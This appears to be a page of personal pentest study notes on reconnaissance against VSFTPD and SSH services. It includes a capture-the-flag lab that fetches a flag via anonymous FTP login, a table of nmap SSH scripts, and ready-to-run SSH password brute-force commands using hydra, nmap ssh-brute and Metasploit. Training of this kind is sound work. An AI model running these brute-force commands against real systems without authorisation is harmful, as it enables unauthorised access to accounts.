 <a id="5.10"></a>
## VSFTPD Recon: Basics

```bash
$ nmap -sV -A --script ftp-anon
```

<a id="5.10.1"></a>
### VSFTPD Recon: Basics Lab

Objective: get the flag, although we don't have a user or password...

```bash
$ nmap $target
21/tcp open  ftp
$ nmap -sV -A -p21 $target
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Dec 18  2018 flag
|_drwxr-xr-x    2 ftp      ftp          4096 Dec 18  2018 pub
$ ftp $target
# We log in with the anonymous user...
ftp > ls
-rw-r--r--    1 ftp      ftp            33 Dec 18  2018 flag
ftp > get flag
# Good to go...
```

<a id="5.11"></a>
## SSH Recon: Basics

| Script            | Function                                     | Args                                      |
|------------------ | -------------------------------------------- | ----------------------------------------- |
| ssh2-enum-algos   | Enumerates accepted encryption algorithms.   | None                                      |
| ssh2-hostkey      | Shows SSH keys.                              | ssh-hostkey.known-hosts-path, ssh-hostkey |
| ssh-auth-methods  | Returns authentication methods.              | ssh.user                                  |
| ssh-brute         | Bruteforce SSH                               | userdb, passdb, ssh-brute.timeout, etc    |

Note to self: look for noauth methods.

<a id="5.12"></a>
## SSH Dictionary Attacks

```bash
$ hydra -L /path/to/users -P /path/to/passwords [TARGET] ssh
$ nmap [TARGET] --script ssh-brute --script-args userdb=/path/to/users passdb=/path/to/passwords
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary > set RHOSTS [TARGET]
msf auxiliary > set USERPASS_FILE /path/to/users
msf auxiliary > run
```

